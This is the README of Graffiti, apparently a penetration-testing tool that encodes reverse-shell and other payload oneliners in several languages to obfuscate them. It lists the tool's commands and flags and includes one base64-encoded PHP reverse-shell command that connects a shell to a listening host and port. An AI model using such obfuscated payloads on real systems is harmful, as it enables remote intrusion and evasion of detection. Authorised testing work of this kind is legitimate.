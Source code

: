 <p align="center"><img width="500" alt="graffitibanner" src="https://user-images.githubusercontent.com/14183473/49157062-8a351500-f2e4-11e8-80cd-00acd809171e.png"></p>

###### _***NOTE***: Never upload payloads to online checkers_

Graffiti is a tool to generate obfuscated oneliners to aid in penetration testing situations. Graffiti accepts the following languages for encoding:
 
 - Python
 - Perl
 - Batch
 - Powershell
 - PHP
 - Bash

Graffiti will also accept a language that is not currently on the list and store the oneliner into a database.

# Features

Graffiti comes complete with a database that will insert each encoded payload into it, in order to allow end users to view already created payloads for future use. The payloads can be encoded using the following techniques:

 - Xor
 - Base64
 - Hex
 - ROT13
 - Raw

Some features of Graffiti include:

 - Terminal drop in access, with the ability to run external commands
 - Ability to create your own payload JSON files
 - Ability to view cached payloads inside of the database
 - Ability to run the database in memory for quick deletion
 - Terminal history and saving of terminal history
 - Auto tab completion inside of terminal
 - Ability to securely wipe the history files and database file
 - Multiple encoding techniques as mentioned above

# Usage

Graffiti comes with a builtin terminal, when you pass no flags to the program it will drop into the terminal. The terminal has history, the ability to run external commands, and it's own internal commands. In order to get help, you jsut have to type `help` or `?`:

```bash

  ________              _____  _____.__  __  .__ 
 /  _____/___________ _/ ____\/ ____\__|/  |_|__|
/   \  __\_  __ \__  \\   __\\   __\|  \   __\  |
\    \_\  \  | \// __ \|  |   |  |  |  ||  | |  |
 \______  /__|  (____  /__|   |__|  |__||__| |__|
        \/           \/           
 v(0.1)               

no arguments have been passed, dropping into terminal type `help/?` to get help, all commands that sit inside of `/bin` are available in the terminal
root@graffiti:~/graffiti# ?

 Command                                  Description
---------                                --------------
 help/?                                  Show this help
 external                                List available external commands
 cached                                  Display all payloads that are already in the database
 list/show                               List all available payloads
 search <phrase>                         Search for a specific payload
 use <payload> <coder>                   Use this payload and encode it using a specified coder
 info <payload>                          Get information on a specified payload
 check                                   Check for updates
 history                                 Display command history
 exit/quit                               Exit the terminal and running session
 encode <script-type> <coder>            Encode a provided payload

root@graffiti:~/graffiti# help

 Command                                  Description
---------                                --------------
 help/?                                  Show this help
 external                                List available external commands
 cached                                  Display all payloads that are already in the database
 list/show                               List all available payloads
 search <phrase>                         Search for a specific payload
 use <payload> <coder>                   Use this payload and encode it using a specified coder
 info <payload>                          Get information on a specified payload
 check                                   Check for updates
 history                                 Display command history
 exit/quit                               Exit the terminal and running session
 encode <script-type> <coder>            Encode a provided payload
```

Graffiti also comes with command line arguments for when you need a payload encoded quickly:

```bash
usage: graffiti.py [-h] [-c CODEC] [-p PAYLOAD]
                   [--create PAYLOAD SCRIPT-TYPE PAYLOAD-TYPE DESCRIPTION OS]
                   [-l]
                   [-P [PAYLOAD [SCRIPT-TYPE,PAYLOAD-TYPE,DESCRIPTION ...]]]
                   [-lH LISTENING-ADDRESS] [-lP LISTENING-PORT] [-u URL] [-vC]
                   [-H] [-W] [--memory] [-mC COMMAND [COMMAND ...]]

optional arguments:
  -h, --help            show this help message and exit
  -c CODEC, --codec CODEC
                        specify an encoding technique (*default=None)
  -p PAYLOAD, --payload PAYLOAD
                        pass the path to a payload to use (*default=None)
  --create PAYLOAD SCRIPT-TYPE PAYLOAD-TYPE DESCRIPTION OS
                        create a payload file and store it inside of
                        ./etc/payloads (*default=None)
  -l, --list            list all available payloads by path (*default=False)
  -P [PAYLOAD [SCRIPT-TYPE,PAYLOAD-TYPE,DESCRIPTION ...]], --personal-payload [PAYLOAD [SCRIPT-TYPE,PAYLOAD-TYPE,DESCRIPTION ...]]
                        pass your own personal payload to use for the encoding
                        (*default=None)
  -lH LISTENING-ADDRESS, --lhost LISTENING-ADDRESS
                        pass a listening address to use for the payload (if
                        needed) (*default=None)
  -lP LISTENING-PORT, --lport LISTENING-PORT
                        pass a listening port to use for the payload (if
                        needed) (*default=None)
  -u URL, --url URL     pass a URL if needed by your payload (*default=None)
  -vC, --view-cached    view the cached data already present inside of the
                        database
  -H, --no-history      do not store the command history (*default=True)
  -W, --wipe            wipe the database and the history (*default=False)
  --memory              initialize the database into memory instead of a .db
                        file (*default=False)
  -mC COMMAND [COMMAND ...], --more-commands COMMAND [COMMAND ...]
                        pass more external commands, this will allow them to
                        be accessed inside of the terminal commands must be in
                        your PATH (*default=None)
```

Encoding a payload is simple as this:

```bash
root@graffiti:~/graffiti# python graffiti.py -c base64 -p /linux/php/socket_reverse.json -lH 127.0.0.1 -lP 9065
Encoded Payload:
--------------------------------------------------

php -r 'exec(base64_decode("JHNvY2s9ZnNvY2tvcGVuKCIxMjcuMC4wLjEiLDkwNjUpO2V4ZWMoIi9iaW4vc2ggLWkgPCYzID4mMyAyPiYzIik7"));'

--------------------------------------------------
```

A demo of Graffiti can be found here:

[![to_video](https://user-images.githubusercontent.com/14183473/49241257-e7a49100-f3cc-11e8-96bb-134dc0724311.png)](https://vimeo.com/303548362)

# Installation

On any Linux, Mac, or Windows system, Graffiti should work out of the box without the need to install any external packages. If you would like to install Graffiti as an executable onto your system (you must be running either Linux or Mac for it to work successfully), all you have to do is the following:

```bash
./install.sh
```

This will install Graffiti into your system and allow you to run it from anywhere.

# Bugs and issues

If you happen to find a bug or an issue, please create an issue with details [here](https://github.com/Ekultek/Graffiti/issues) and thank you ahead of time!